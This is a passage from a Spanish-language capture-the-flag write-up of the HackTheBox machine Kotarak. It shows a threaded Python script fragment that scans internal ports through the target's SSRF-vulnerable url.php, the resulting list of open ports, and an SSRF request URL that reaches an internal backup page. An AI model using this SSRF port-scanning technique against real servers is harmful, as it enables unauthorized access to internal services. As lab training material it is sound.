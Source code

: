```python
        uri = url + str(port)
        t = threading.Thread(target=makeRequest, args=(uri, port))
        threads.append(t)
        t.start()
```

```bash
❯ python3 port-discovery.py

[*] El puerto 22 está abierto

[*] El puerto 90 está abierto

[*] El puerto 110 está abierto

[*] El puerto 320 está abierto

[*] El puerto 200 está abierto

[*] El puerto 888 está abierto
```

Si validamos los puertos vía web, tenemos algo interesante para el puerto 888:

![""](/assets/images/htb-kotarak/kotarak-888.png)

A este punto, ya nos debe estar llamando la atención el recurso `backup`. Si hacemos *hovering*, vemos `doc=backup`; debido a que estamos viendo contenido interno del servidor (*SSRF - Server Side Request Forgery*), tenemos que agregar dicho parámetro en la dirección URL completa, es decir:

```bash
http://10.10.10.55:60000/url.php?path=http://localhost:888/?doc=backup
```

No vemos nada; sin embargo, si accedemos al código fuente del sitio, tenemos lo siguiente:
